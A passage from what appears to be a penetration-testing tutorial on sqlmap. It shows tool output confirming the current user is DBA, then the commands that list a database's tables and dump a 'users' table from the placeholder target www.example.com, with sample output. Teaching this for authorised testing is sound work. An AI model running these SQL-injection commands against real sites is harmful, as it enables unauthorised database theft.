 ```shell-session
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name is `root`, while the current database name is `testdb`.

{% hint style="info" %}
**Note:** The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.
{% endhint %}

***

## Table Enumeration

In most common scenarios, after finding the current database name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with `-D testdb`, is as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

After spotting the table name of interest, retrieval of its content can be done by using the `--dump` option and specifying the table name with `-T users`, as follows:

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```